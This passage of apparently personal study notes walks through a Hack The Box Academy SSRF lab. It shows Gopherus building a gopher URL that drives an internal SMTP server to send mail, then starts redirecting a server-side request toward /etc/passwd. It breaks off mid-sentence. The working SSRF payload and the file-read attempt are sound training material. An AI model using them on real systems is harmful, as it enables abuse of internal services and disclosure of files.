 Let us generate a valid SMTP URL by supplying the corresponding argument. The tool asks us to input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:

```shell-session
smoothment@htb[/htb]$ python2.7 gopherus.py --exploit smtp

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250212121005.png)

If we go to the website, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212121513.png)

The request looks like this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212121557.png)

As seen, the server makes a post request to a resource:

```
http://dateserver.htb/availability.php
```

We can try to modify this into an internal resource like `/etc/passwd`, we can make use of:
